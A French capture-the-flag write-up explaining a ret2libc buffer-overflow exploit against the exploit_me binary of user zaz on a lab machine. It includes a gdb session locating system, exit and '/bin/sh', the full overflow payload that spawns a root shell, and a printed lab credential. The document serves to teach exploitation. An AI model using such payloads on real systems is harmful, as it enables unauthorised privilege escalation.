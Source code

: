 # Solution 4

De la même manière que le `writeup3`, nous allons à nouveau exploiter l'exécutable présent dans le home de l'utilisateur `zaz`.

`zaz:646da671ca01bb5d84dbb5fb2238dc8e`

Les solutions précédentes consistaient à exécuter un shellcode précédemment chargé en mémoire, soit directement sur la stack, soit dans une variable d'environnement.

Certaines protections existent pour se protéger des buffer overflows. Une des premières barrières a été de rendre la pile non exécutable. Ainsi, l’attaquant place son shellcode dans le buffer, ou dans une variable d’environnement (placée sur la pile), mais lorsque le flow d’exécution est redirigé vers son code, celui-ci ne s’exécute pas.

Nous allons donc utiliser un autre type d'exploit : `ret2libc`.

Le concept est simple, utiliser des fonction déjà programmée afin de déjouer les potentielles protections. Comme nous allons le voir, l'exploit est relativement simple, cela a donc du sens de l'utiliser même si aucune protection de ce type n'est présente.

La libc comporte une fonction `system()` qui exécute des commandes. Si nous parvenons à l'appeler en lui fournissant les bons arguments, nous pourrons par exemple faire :

```C
system("/bin/sh")
```

Ce qui nous lancerait un shell `root`.

Pour ce faire, il nous faut placer la `stack` dans la bonne configuration :

![ret2libc](/images/ret2libc.png)

Notre commande sera donc du type :

`./exploit me $(python -c 'print("A"*140 + "addresse de system()" + "AAAA" + "adresse de /bin/sh")')`

Nous récupérons donc les adresse dont nous avons besoin :

```shell
$ gdb -q exploit_me
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) b *main
Breakpoint 1 at 0x80483f4
(gdb) r
Starting program: /home/zaz/exploit_me

Breakpoint 1, 0x080483f4 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```

- system = `0xb7e6b060`
- /bin/sh = `0xb7f8cc58`
- exit = `0xb7e5ebe0`

Nous allons mettre l'adresse de la fonction `exit` à la place des quatres `A` dans notre commande. Cela permettra au programme de quitter sans émettre d'erreurs.

Voici le résultat :

```shell
$ ./exploit_me $(python -c 'print("A"*140 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`X
# whoami
root
#
zaz@BornToSecHackMe:~$
```
